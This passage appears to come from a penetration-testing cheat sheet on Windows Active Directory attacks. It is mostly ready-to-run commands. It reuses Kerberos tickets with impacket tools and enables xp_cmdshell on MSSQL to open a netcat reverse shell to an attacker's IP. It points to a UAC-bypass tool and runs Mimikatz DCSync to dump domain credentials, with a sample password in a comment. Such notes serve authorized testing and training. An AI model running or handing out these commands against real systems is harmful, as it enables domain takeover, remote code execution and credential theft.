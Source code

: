 ```shell
export KRB5CCNAME=<username>.ccache
```

```shell
python3 smbclient.py -no-pass -k <domain>/<username>@<targetName or ip>
```

### impacket other services

:label: MSSQL

```shell
python3 mssqlclient.py [[domain/]username[:password]@]<targetName or ip> -k -no-pass
# -k -no-pass: use the credentials in the ccache file for Kerberos authentication
```

sysadmin or serveradmin roles

```mssql
EXEC sp_configure 'show advanced options', '1'
RECONFIGURE

EXEC sp_configure 'xp_cmdshell', '1' 
RECONFIGURE

EXEC xp_cmdshell 'C:\Windows\Temp\nc.exe -e cmd.exe <attacker ip> <attacker port>';
```

### :open_file_folder: Mimikatz

[![Windows](https://badgen.net/badge/icon/windows?icon=windows&label)](https://microsoft.com/windows/)

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md<br>
https://github.com/gentilkiwi/mimikatz



```
ERROR kuhl_m_sekurlsa_acquireLSA ; Logon list
```

- UAC-bypass

If we are already in the administrators group but are unable to execute Mimikatz.

```
ERROR kuhl_m_privilege_simple ; RtlAdjustPrivilege (20) c0000061 non admin
```

https://github.com/k4sth4/UAC-bypass

- DCSync

```powershell
.\mimikatz.exe
privilege::debug
<# already a domain administrator #> 
lsadump::dcsync /domain:<domain> /dc:<domain controller> /user:<specific user>
<# authuser with Replicating Directory Changes and Replicating Directory Changes All permissions #>
lsadump::dcsync /domain:<domain> /dc:<domain controller> /user:<specific user> /authuser:<authuser> /authdomain:<authdomain> /authpassword:<authpassword> /authntlm
<# e.g., lsadump::dcsync /domain:TEST.LOCAL /user:user01 /authuser:vitamin /authdomain:TEST /authpassword:"eRFWE5756872Gn" /authntlm #>
```
